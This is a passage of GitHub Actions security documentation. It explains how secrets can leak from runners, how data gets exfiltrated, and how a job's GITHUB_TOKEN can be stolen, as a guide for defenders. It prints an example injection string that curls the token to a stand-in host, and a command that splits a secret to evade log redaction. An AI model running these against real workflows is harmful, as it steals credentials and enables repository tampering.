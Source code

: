 - If the secret or token is set to an environment variable, it can be directly accessed through the environment using `printenv`.
- If the secret is used directly in an expression, the generated shell script is stored on-disk and is accessible.
- For a custom action, the risk can vary depending on how a program is using the secret it obtained from the argument:

  {% raw %}
  ```
  uses: fakeaction/publish@v3
  with:
      key: ${{ secrets.PUBLISH_KEY }}
  ```
  {% endraw %}

Although {% data variables.product.prodname_actions %} scrubs secrets from memory that are not referenced in the workflow (or an included action), the `GITHUB_TOKEN` and any referenced secrets can be harvested by a determined attacker.

### Exfiltrating data from a runner

An attacker can exfiltrate any stolen secrets or other data from the runner. To help prevent accidental secret disclosure, {% data variables.product.prodname_actions %} [automatically redact secrets printed to the log](/actions/reference/encrypted-secrets#accessing-your-secrets), but this is not a true security boundary because secrets can be intentionally sent to the log. For example, obfuscated secrets can be exfiltrated using `echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};`. In addition, since the attacker may run arbitrary commands, they could use HTTP requests to send secrets or other repository data to an external server.

### Stealing the job's `GITHUB_TOKEN`

It is possible for an attacker to steal a job's `GITHUB_TOKEN`. The {% data variables.product.prodname_actions %} runner automatically receives a generated `GITHUB_TOKEN` with permissions that are limited to just the repository that contains the workflow, and the token expires after the job has completed. Once expired, the token is no longer useful to an attacker. To work around this limitation, they can automate the attack and perform it in fractions of a second by calling an attacker-controlled server with the token, for example: `a"; set +e; curl http://example.lab?token=$GITHUB_TOKEN;#`.

### Modifying the contents of a repository

The attacker server can use the {% ifversion fpt or ghec %}{% data variables.product.prodname_dotcom %}{% else %}{% data variables.product.product_name %}{% endif %} API to [modify repository content](/actions/reference/authentication-in-a-workflow#permissions-for-the-github_token), including releases, if the assigned permissions of `GITHUB_TOKEN` [are not restricted](/actions/reference/authentication-in-a-workflow#modifying-the-permissions-for-the-github_token).

## Considering cross-repository access

{% data variables.product.prodname_actions %} is intentionally scoped for a single repository at a time. The `GITHUB_TOKEN` grants the same level of access as a write-access user, because any write-access user can access this token by creating or modifying a workflow file{% ifversion fpt or ghes > 3.1 or ghae-next or ghec %}, elevating the permissions of the `GITHUB_TOKEN` if necessary{% endif %}. Users have specific permissions for each repository, so allowing the `GITHUB_TOKEN` for one repository to grant access to another would impact the {% data variables.product.prodname_dotcom %} permission model if not implemented carefully. Similarly, caution must be taken when adding {% data variables.product.prodname_dotcom %} authentication tokens to a workflow, because this can also affect the {% data variables.product.prodname_dotcom %} permission model by inadvertently granting broad access to collaborators.
